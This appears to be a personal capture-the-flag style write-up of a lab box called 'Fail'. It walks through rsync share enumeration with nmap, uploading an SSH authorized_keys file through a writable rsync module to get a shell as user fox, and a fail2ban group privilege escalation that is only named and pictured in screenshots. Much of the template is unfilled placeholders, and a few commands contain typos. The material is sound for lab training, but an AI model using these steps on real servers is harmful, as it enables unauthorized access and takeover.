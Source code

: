 ```yaml
---
Alias: Fail
Date: 5/3/2022
Platform: Linux
Difficulty: Intermediate
Tags:
Status: Finished
IP: 
---
```


# {{Fail}}


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash
873
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 873

#### -Per googling port 873 enumeration I found "hacktricks" website showing to type "nmap -sV --script "rsync-list-modules" -p <PORT> <IP>" to enumerate shares:

![](Pasted%20image%2020221015215909.png)

#### -Found share "fox" typing "nmap -sV --script "rsync-list-modules" -p 873 192.168.143.126":

![](Pasted%20image%2020221015220513.png)
#Rsync 

#### -Per googling port 873 enumeration I found the below web page showing how to list files/directory from rsync server

![](Pasted%20image%2020221015220950.png)

![](Pasted%20image%2020221015221123.png)

#### -Typed "rsync -r 192.168.143.126::fox " and found the below files/directories showing user "fox" home directory and then downloaded all files/directories onto local machine by typing "rsync -av fox@192.168.143.126::fox/ ."

![](Pasted%20image%2020221015221356.png)

![](Pasted%20image%2020221015221635.png)

#### -Found nothing interesting reading the files
	
#### -Tested if I can upload files users "fox" home directory by typing "echo "hello world" > testfile.txt" and typing "rsync testfile.txt -r 192.168.143.126::fox" to see if it uploaded to fox's home directory. And I found I can:

![](Pasted%20image%2020221015221837.png)

#### -The directions how to find out how to do this was found on the previous website showing the following: 

![](Pasted%20image%2020221015222046.png)

#### -Googled "port 873 enumeration" and found the following page from hacktricks showing how to copy all files from your  local machine to the rsync server:

![](Pasted%20image%2020221015222900.png)


#### Then copied all rsync files to kali machine

---

# Exploitation
## Name of the technique

#### -Typed the following commands to create an authorized_keys file in fox's home directory so I can log in via SSH session:
-"mkdir fox" 
-"cd fox"
-"mkdir .ssh"
-"cd .ssh" 
-"touch id_rsa.pub" 
-"ssh-keygen -t rsa" 
-[Enter file in which to save the key (/home/kali/.ssh/id_rsa):] "/home/kali/Downloads/ProvingGroundsBoxes/Fail/fox/.ssh/id_rsa.pub"
-[Enter passphrase (empty for no passphrase):] "password"
-[Enter same passphrase again:] "password"
-"sudo mv id_rsa_pub authorized_keys"
-"cd .."
-"rsync -avp fox/ fox@192.168.120.149::fox/"

#### -Navigated to directory where the "id_rsa" file was created after running "ssh-keygen -t rsa" and typed "chmod 600" to create the correct permissions for the private ssh key

#### -Typed "ssh -I id_rsa fox@192.168.143.126" and typed in "password" for the password and received an ssh session as user fox

![](Pasted%20image%2020221016090756.png)

---

# Privilege Escalation
## Local Enumeration

#### -Ran "LunEnum.sh" script and found user "fox" is an owner of "fail2ban" group:

![](Pasted%20image%2020221016091122.png)

#### -Googled "fail2ban privilege escalation" and found the following webpage showing the steps to escalate privileges:

![](Pasted%20image%2020221016091817.png)

![](Pasted%20image%2020221016091921.png)

![](Pasted%20image%2020221016092000.png)

![](Pasted%20image%2020221016092047.png)

![](Pasted%20image%2020221016092139.png)

![](Pasted%20image%2020221016092235.png)





## Privilege Escalation vector
## Fail2Ban group privelege escalation



---

